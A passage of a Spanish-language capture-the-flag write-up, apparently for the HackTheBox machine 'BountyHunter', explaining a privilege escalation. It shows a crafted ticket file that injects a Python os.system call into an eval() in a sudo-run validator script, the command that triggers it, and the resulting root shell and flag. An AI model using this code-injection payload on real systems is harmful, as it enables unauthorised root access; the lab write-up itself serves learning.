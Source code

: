 Con esto, veo que la potencial vía de ataque se encuentra en la función *eval()*, ya que se puede controlar la entrada que recibe la función a través del fichero de ticket que solicita al principio. Por tanto, la idea sería crear un ticket que permita ejecutar comandos en el sistema a través de sentencias en Python. De hecho, al estar ejecutándose el programa con permisos de superusuario, podría ejecutar un comando que me generase directamente una shell como root.

```
development@bountyhunter:~$ cat ticket.md

# Skytrain Inc
## Ticket to Essex
__Ticket Code:__
**11+321 and __import__('os').system('/bin/bash -i -p')
##Issued: 2021/05/12
#End Ticket
```

El ticket que se muestra anteriormente está modificado de un ejemplo inválido que encuentro en la ruta "/opt/skytrain_inc/invalid_tickets". El ticket pasará los primeros condicionales y, al llegar a la función *eval()*, realizará la suma aritmética y, tras ello, la operación lógica "and", que permitirá ejecutar la sentencia de Python que generará una shell como root.

```
development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py

Please enter the path to the ticket file.
ticket.md
Destination: Essex

root@bountyhunter:/home/development# cat /root/root.txt

61908fd82c3f1bfd0b1416590dd16077
```
